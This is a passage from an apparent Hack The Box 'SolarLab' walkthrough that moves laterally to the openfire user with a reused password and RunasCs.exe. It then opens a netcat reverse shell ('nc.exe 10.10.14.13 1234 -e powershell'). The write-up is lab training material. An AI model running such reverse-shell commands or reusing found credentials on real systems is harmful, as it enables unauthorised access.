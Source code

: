 One of passwords found from **users.db** was being reused for user **openfire** and we can execute commands as user openfire using RunaCs.exe:

`.\RunasCs.exe openfire HotP!fireguard "whoami"`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/solarlab/image-29.png)


Now, in order to spawn reverse shell as **openfire**, let's upload **nc.exe**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/solarlab/image-28.png)

Running `.\RunasCs.exe openfire HotP!fireguard "C:\tmp\nc.exe 10.10.14.13 1234 -e powershell"`, we get a reverse shell as openfire on our netcat listener:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/solarlab/image-30.png)

## Privesc: openfire to administrator

In `C:\Progra Files\Openfire`, there's a directory named **embedded-db**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/solarlab/image-31.png)
